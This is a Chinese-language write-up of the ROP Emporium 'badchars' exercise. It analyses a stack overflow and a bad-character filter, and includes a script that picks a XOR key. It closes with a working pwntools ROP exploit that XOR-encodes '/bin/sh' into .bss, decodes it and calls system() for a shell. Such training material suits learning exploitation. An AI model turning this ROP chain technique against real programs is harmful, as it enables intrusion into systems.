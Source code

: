 ```yaml
---
title: ROP Emporium の badchars
date: 2020-06-05 11:32:06
categories: 
- WriteUPs
- ROP Emporium
tags: 
- PWN
- ROP
- Stack
---
```

## Introduction

[ROP Emporium](https://ropemporium.com)训练4：badchars的解析。

<!-- more -->

## badchars32

### Step 1

程序正常运行截图：

![](/img/badchars/badchars1.png)

可以看到运行时提示badchars，结合题目说明，可能这些字符串会被程序特殊处理。

checksec：32位程序，依然只开启了DEP保护

![](/img/badchars/badchars2.png)

### Step 2

将程序丢到IDA Pro中去（至于为什么没用hopper，只能说这题需要理解下程序，而hopper的伪代码不够C……），先看下main函数：

![](/img/badchars/badchars3.png)

main函数聚焦在pwnme函数:

![](/img/badchars/badchars4.png)

首先发现memcpy函数存在栈溢出漏洞，其次出现了两个函数nstrlen和checkBadchars：

![](/img/badchars/badchars5.png)

nstrlen函数是当遇到0xa（ASII码10即’\n’）时就截断。

![](/img/badchars/badchars6.png)

checkBadchars函数是遇到\x62（ASII码98即’b’）、\x69（ASII码105即’i’）、\x63（ASII码99即’c'）、\x2f（ASII码47即’/'）、\x20（ASII码32即’<space>'）、\x66（ASII码102即’f'）、\x6e（ASII码110即’n'）、\x73（ASII码115即’s’）时将其替换成’-21’。

还发现程序中是存在system函数的，但是没有’/bin/sh’字符串。所以我们需要将需要的字符串写入内存，这样就会遇到’/’、’b’、’s’被过滤的情况。

为了解决这个情况，根据题目的提示，需要通过XOR（异或）对输入的字符串加密后输入然后再解密。

### Step 3

顺着这个思路首先解决第一个问题，字符串写到哪里。看一下各个段的权限，下面的段是有写权限的：

![](/img/badchars/badchars7.png)

.bss段是空的所以可以把字符串写在.bss段。

然后是第二个问题怎么实现异或，通过ROPgadget找一下：

![](/img/badchars/badchars8.png)

果然在0x08048890这里存在这样一条XOR指令可以利用。通过这条指令我们可以将XOR后的’/bin/sh’字符串传入，通过这条指令解密后再作为system函数的参数。

接着是XOR值的选择，我们可以写个简单的脚本找一下：

```Python
badchars = '\x62\x69\x63\x2f\x20\x66\x6e\x73'

sh_string = '/bin/sh\x00'

def xor(sh_str):
    i = 0
    for j in range(len(sh_str)):
        tmp = chr(ord(sh_str[j]) ^ i)
        if tmp in badchars:
            i = i + 1
    print i

xor(sh_string)
```

运行结果为2，即当’/bin/sh\x00’和2异或的时候不会出现被过滤的字符。

当然还需要找一个指令段帮助控制ebx和cl寄存器（32位的ecx寄存器分为两个16位的cx寄存器，cx寄存器再分成8位的ch和cl寄存器）的值，也通过ROPgadget找一下：

![](/img/badchars/badchars9.png)

最后就是找两个指令段，分别辅助写入和控制寄存器：

![](/img/badchars/badchars10.png)

图中标记的一对指令刚好满足条件。

### Step 4

思路顺利之后就是写EXP了：

```Python
* from pwn import *
* 
* sh = process('./badchars32')
* elf = ELF('./badchars32')
* 
* sys_addr = elf.symbols['system']
* bss_addr = 0x0804a040
* 
* xor_addr = 0x08048890
* #pop_ebx_addr = 0x08048461
* #pop_ecx_addr = 0x08048897
* pop_ebx_ecx_addr = 0x08048896
* 
* mov_addr = 0x08048893
* pop_addr = 0x08048899
* 
* shell = '/bin/sh\x00'
* xor_shell = ''
* for i in shell:
* xor_shell += chr(ord(i) ^ 2)
* 
* payload = 'a' * (0x28 + 0x4)
* payload += p32(pop_addr) + xor_shell[0:4] + p32(bss_addr) + p32(mov_addr)
* payload += p32(pop_addr) + xor_shell[4:8] + p32(bss_addr + 4) + p32(mov_addr)
* 
* for j in range(len(xor_shell)):
* #payload += p32(pop_ebx_addr)
* #payload += p32(bss_addr + j)
* #payload += p32(pop_ecx_addr)
* payload += p32(pop_ebx_ecx_addr)
* payload += p32(bss_addr + j)
* payload += p32(2)
* payload += p32(xor_addr)
* 
* payload += p32(sys_addr) + p32(0xdeadbeef) + p32(bss_addr)
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

注释掉的部分是在传入的XOR加密shellcode解密时候，将xor指令的传参分成两步进行，可是却无法正确getshell，希望有大佬可以解惑。

EXP运行结果：

![](/img/badchars/badchars11.png)

## badchars

64位程序和32位思路一样，传参的时候甚至更加简单，因为可以一次性将需要的字符串写入内存。

## Tips

写入的字符串可以是’sh\x00\x00’，这样32位程序也可以实现一次性传参，前提是sh系统变量就是默认的’/bin/sh’命令。